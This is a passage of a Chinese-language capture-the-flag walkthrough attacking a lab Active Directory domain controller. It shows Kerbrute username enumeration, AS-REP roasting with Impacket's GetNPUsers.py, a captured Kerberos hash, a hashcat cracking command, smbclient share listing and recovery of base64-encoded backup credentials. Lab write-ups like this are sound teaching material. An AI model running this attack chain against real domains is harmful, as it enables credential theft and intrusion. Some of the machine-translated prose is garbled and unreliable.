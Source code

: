 ```
2022/03/20 16:11:05 >  [+] VALID USERNAME: ROBIN@spookysec.local
2022/03/20 16:25:53 >  Done! Tested 73317 usernames (16 valid) in 3084.883 seconds
```

我们可以看到发现了 16 个帐户，包括一个服务管理帐户(即 **svc-admin** )和一个**备份**帐户，这是特别感兴趣的。使用新发现的帐户列表，我们可以尝试滥用 Kerberos 中的一个特性，使用一种叫做**as re proposing 的攻击方法。**

> 当用户帐户设置了“不需要预验证”权限时，会发生重新发布。这意味着帐户**在请求指定用户帐户上的 Kerberos 票据之前不需要**提供有效的身份证明。

我们可以在 [Impacket](https://github.com/SecureAuthCorp/impacket) 中使用一个名为“ **GetNPUsers.py** 的工具来检索 Kerberos 票据。这允许我们从密钥分发中心查询可恢复的帐户。查询帐户唯一需要的是一组有效的用户名，我们之前已经通过 Kerbrute 列举过了。

```
python3 GetNPUsers.py spookysec.local/ -dc-ip 10.10.253.179 -usersfile kerberos-usernames -no-pass -request -outputfile kerberos-users-found
```

在运行“ **GetNPUsers.py** ”之后，我可以看到您可以从 svc-admin 用户帐户查询一张没有密码的票。

```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:408ee4a3e91ec877b931d35c56364c77$63dc9e093d6f3ddfd0074033786ed4d4d6e5f3e9f27be7f98866c0c91c4271c6c8a721eafa9e343a2b9638da64fe71d7563c31e51e6aac0686ba9025ab8ff2d41b8b24f38888cd803c70568744a12daa95cca16b73fa6bc5b20f1fb697b29fd1fe39fa0553ae07ad7e6e2f5232e306ee2abf3ee2ba8ebc704bc96f0d60cd245f96f4caa7c20c3a673fba2b25a384593b01e334560348a146d9168e1fc594b8c59e11382193bd2b3f1c421f9d5fdc61167c8f3bfa18d60fc6fca79923c16b707927719330363b593c28ccc0c7dd2c5e7696b43d45a4bc016341f773805c53f51d2b6ae4a0fa3c3280a18a9d53d9b5fd08337c
```

接下来，我们可以使用 **Hashcat** 来破解从 KDC 中检索到的“Kerberos 5 AS-REP etype 23”散列。

```
hashcat64.exe -m 18200 -a 0 hash.txt rockyou.txt -o cracked.txt<hash>:mana**********
```

这为我们提供了一组凭据，我们现在可以使用这些凭据来枚举域控制器可能发出的任何共享。

# SMB 枚举(续。)

使用 svc-admin 凭据，我现在可以进一步列举 DC 上的共享。我可以使用工具 **smbclient** 在 DC 上市股票。

```
smbclient -L //10.10.200.95 -U svc-admin
Enter WORKGROUP\svc-admin's password: Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share
```

我可以看到服务器列出了六个共享，包括一个名为**备份**的共享。此共享包含一个名为“ *backup_credentials.txt* ”的文本文件，其中包含 base64 编码的文本。解码此文本将为备份用户帐户提供凭据。

![](img/be4348947847282c20aa6368da309d95.png)
